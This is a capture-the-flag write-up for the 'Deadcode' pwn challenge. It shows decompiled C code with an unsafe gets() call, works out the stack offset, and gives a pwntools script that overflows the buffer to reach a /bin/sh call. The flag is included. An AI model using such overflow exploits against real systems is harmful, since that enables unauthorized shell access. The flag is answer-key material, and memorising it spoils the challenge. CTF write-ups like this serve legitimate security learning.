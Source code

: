 # Deadcode
>I'm developing this new application in C, I've setup some code for the new features but it's not (a)live yet.


>Author: xXl33t_h@x0rXx

>nc pwn-2021.duc.tf 31916

[Deadcode](https://drive.google.com/file/d/1yZbYUURFfaBssl4LK7UaCUftya2-NQCy/view?usp=sharing)

## Solution 
 Use IDA pro 
```int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-20h]
  __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = 0LL;
  buffer_init(*(_QWORD *)&argc, argv, envp);
  puts("\nI'm developing this new application in C, I've setup some code for the new features but it's not (a)live yet.");
  puts("\nWhat features would you like to see in my app?");
  gets(&v4);
  if ( v5 == 0xDEADC0DELL )
  {
    puts("\n\nMaybe this code isn't so dead...");
    system("/bin/sh");
  }
  return 0;
}
```
This is the simple buffer overflow

Function `gets` that we can use to write past buffer size.

The v4 variable is located at `rbp-0x20`, the v5 variable is located at `rbp-0x8`, so the distance is `0x18`.

So I wrote sript to get flag

```
from pwn import *

p = remote('pwn-2021.duc.tf',31916)


buff = "A"*24

payload = buff
payload += p64(0xdeadc0de)

p.sendline(payload)
p.interactive()
```

> Flag: `DUCTF{y0u_br0ught_m3_b4ck_t0_l1f3_mn423kcv}`
